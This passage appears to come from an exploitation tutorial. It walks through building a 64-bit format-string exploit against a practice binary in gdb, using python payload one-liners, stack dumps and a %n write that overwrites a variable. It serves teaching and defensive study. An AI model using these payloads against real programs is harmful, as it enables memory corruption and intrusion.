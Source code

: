 What we see in gdb:
```
gdb-peda$ x/3x 0x7fffffffddb0
0x7fffffffddb0:	0x2437257832383425	0x0000000060105c78
0x7fffffffddc0:	0x0000000000000a00
```

So we see that the hex string 78 (which in ascii is "x") right after our hex string, and is the thing that is messing up our exploit. That "x" is probably from our input. Let's change "%7$x" to "%7$0" to confirm it.

Input:
```
$	python -c 'print "%482x%7$0" + "\x5c\x10\x60\x00\x00\x00\x00\x00"' > p2
```

What we see in gdb:
```
gdb-peda$ x/3x 0x7fffffffddb0
0x7fffffffddb0:	0x2437257832383425	0x0000000060105c30
0x7fffffffddc0:	0x0000000000000a00
```

So where we used to see the hex string for "x", we now see it for 0 so that confirms that it is from our input (we could have also just looked at what is currently on the stack with gdb to see it). So to get around this, we will have to move the address "60105c" to it's own segment. We should be able to do this by adding 7 ascii zeros to the beginning.

Input:
```
gdb-peda$ x/4x 0x7fffffffddb0
0x7fffffffddb0:	0x2530303030303030	0x7824372578323834
0x7fffffffddc0:	0x000000000060105c	0x000000000000000a
```

So that worked out nicely. Now that our address is properly formatted in it's own segment, let's make sure we can read it using a format string exploit with the same format. Of course it is now 8 segments after the printf call, instead of 7.

```
python -c 'print "00000%482x.%8$x." + "\x5c\x10\x60\x00\x00\x00\x00\x00"' | ./f2_64 
00000                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            602029.60105c.\`The value of var0 is 0
```

To make things easier to read, I replaced to of the zeros with periods before and after the segment were reading, just to make it easier to read. As you can see we read the correct address, so we should be able to change "%8$x" to "%8$n" to write the data to the var0 integer.

```
python -c 'print "00000%482x.%8$n." + "\x5c\x10\x60\x00\x00\x00\x00\x00"' | ./f2_64 
00000                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            602029..\`The value of var0 is 488
```
